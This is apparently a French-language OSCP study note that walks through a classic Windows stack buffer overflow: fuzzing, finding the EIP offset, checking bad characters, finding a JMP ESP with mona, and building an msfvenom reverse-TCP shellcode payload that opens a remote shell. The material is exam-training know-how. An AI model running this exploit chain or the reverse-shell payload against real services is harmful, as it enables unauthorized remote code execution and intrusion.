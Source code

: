 # OSCP
Road map pour OSCP

# FUZZING :
Trouver un paramètre et lui envoyer autant de bytes possibles en créant un script python et en utilisant la lib socket.

Une fois que le programme a crash, récuperer le nombre de bytes qui l'ont fait crash. 

# FINDING OFFSET :
Afin de récuperer l'offset précis pour écrire EIP, utiliser "/usr/share/metasploit-framework/tools/exploit/pattern_create.rb - l {nb de bytes qui ont fait crash le fuzzer}" pour générer des bytes uniques.

Ensuite on modifie le script python afin d'envoyer les bytes générés, on execute le script et on récupere sur Immunity la valeur de EIP.

Après cela, utiliser "/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l {nb bytes qui ont fait crash le fuzzer} -q {offset trouvé sur EIP dans Immunity}"

Le script ruby nous retourneras l'offset précis afin de controler EIP, tester en ajoutant :

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {"B" * 4}

Cette fois, on devrais voir EIP à "42424242".

# FINDING BADCHARS :
Taper sur Google : badchars, copier le code et le coller dans une variable, les encodés directement et les rajouter qu'après la fonction encode.

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {"B" * 4} + {badchars}
      
Retourner sur Immunity, aller sur ESP, clic droit et follow dump, si la suite des badchars s'affiche correctement, il n'y a pas de badchars, sinon, récuperer le ou les badchars et les exclures lors de la génération de shellcode.

# FINDING vulnerable MODULE :
Désormais, aller sur Immunity importer mona, relancer le programme et chercher un module sans aucune sécurité active (tout à false) :

      !mona modules

Après cela, chercher dans ce propre module, une adresse qui jump sur ESP afin de réecrire dedans et executer le shellcode

      !mona jmp -r esp -m {nom du module non sécurisé}
Ou

      !mona jmp -r esp -cpb "\x00"
      
Quand l'adresse est trouvée, relancer Immunity en attachant le programme, cliquer en haut sur "Go to address in disassembler", entrer l'adresse et poser un breakpoint avec F2.


Aller sur le script python et faire ceci :

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {adresse JMP en little endian}
      
Pour l'adresse en little endian déjà encodée en byte : ret = bytes.fromhex('{Adresse en little endian}')

Si après exécution du script, EIP contient la valeur de l'adresse, cela fonctionne.

# GENERATING SHELLCODE :
Afin de générer le shellcode, utiliser msfvenom :

      msfvenom --arch x86 --platform windows LHOST={@IP} LPORT={@PORT} -e x86/shikata_ga_nai -p windows/shell_reverse_tcp -f python -b "\x00 (ne pas oublier les badchars trouvés)"
      
 Copier le shellcode, le mettre dans le script et l'ajouter de la manière suivante :
 
       shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {adresse JMP en little endian} + nop*10 + {shellcode généré}
       
# REVERSE SHELL :
Se mettre à l'écoute au préalable, lancer le script, normalement un shell est poppé.

